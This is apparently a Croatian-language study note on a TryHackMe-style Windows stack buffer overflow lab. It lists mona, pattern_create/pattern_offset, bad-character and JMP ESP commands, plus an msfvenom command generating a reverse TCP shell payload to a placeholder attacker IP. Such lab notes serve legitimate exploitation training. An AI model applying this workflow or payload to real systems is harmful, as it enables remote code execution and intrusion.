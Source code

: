 Spajanje na windows stroj:
xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea /tls-seclevel:0

Rad u moni:
Folder za rad za buffer overlow (opcionalno)
!mona config -set workingfolder c:\mona\%p

Nakon pokretanja fuzzera, kreiramo neki random redoslijed unikatnih znakova duljine koje je potrebno da crashamo program plus 200-400

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400 //ako je fuzzing izbacio sa 2000
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 600

/opt/metasploit-framework/embedded/bin/ruby (putanja da se moze pokretati na THM masini)

To koristima kada se program crasha da mozemo pronaci na kojoj lokaciji je registar koji nam treba.
Ako nam EIP registar ima vrijednost 0x12345678 mozemo pronaci na kojoj lokaciji za offset cemo koristiti preko naredbe:
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 12345678
Također kada se crasha sa payloadom mozemo pogledati registre preko naredbe:

!mona findmsp -distance 2400 //definiramo 2400 da gleda od 0-2400. //ako zelimo od do koristimo -distance 2400 -start 1000 

Tražimo lokaciju EIP-a.
Kada smo ga nasli stavljamo offset kao udaljenost do EIP i retn nesto random poput CCCC

Iduci korak: izbacivanje losih znakova
Potrebno je raditi jer ovisno o aplikaciji, jeziku sustavu stogod, nekada se neki znakovi tretiraju na poseban nacin i ne ponasaju kako bismo htjeli. Zato ih moramo locirati i izbaciti iz našeg payloada.
Koristimo 

!mona bytearray -b "\x00"

kako bi generirali sve moguce kombinacije bytova (0x00 - 0xFF) i testiramo koji ce nam odgovarati, a koji ne.
U nasoj python skripti stvaramo takav array koristeci naredbu (znamo da 0x00 je null i ne moze pa ga obilazimo)

bit_array="".join(f"\\x{x:02x}" for x in range(1, 256))

i stavljamo ga na poziciju payloada.

Kada pošaljemo payload gledamo ESP registar (extended stack pointer) i tražimo znakove koji remete red. (Primjer 01 02 03 07 05) i onda u kodu za generiranje byte arraya izbacujemo 0x07.

Provjeravamo preko ove naredbe i želimo da registri koji su loši na toj listi budu identični registerima koje smo izbacili:

!mona compare -f C:\mona\oscp\bytearray.bin -a <address esp>

Nakon pronalaska losih znakova, trazimo "jump point" (lokacija na koju mozemo skociti) i ne sadrzi lose znakove.

!mona jmp -r esp -cpb "\x00..."

To stavljamo pod retn varijablu

Nakon sto dobijemo adrese moramo generirati payload u msfvenomu.

msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00..." -f c (ovisno o little ili big endian biramo redoslijed kojim cemo pisati adrese)

Nakon generiranja payloda kopiramo ga u lokaciju payload i dodajemo nop u skriptu bufferExploit.py
Prije slanja exploita, moramo otvoriti listener i to je vise manje to zasada.









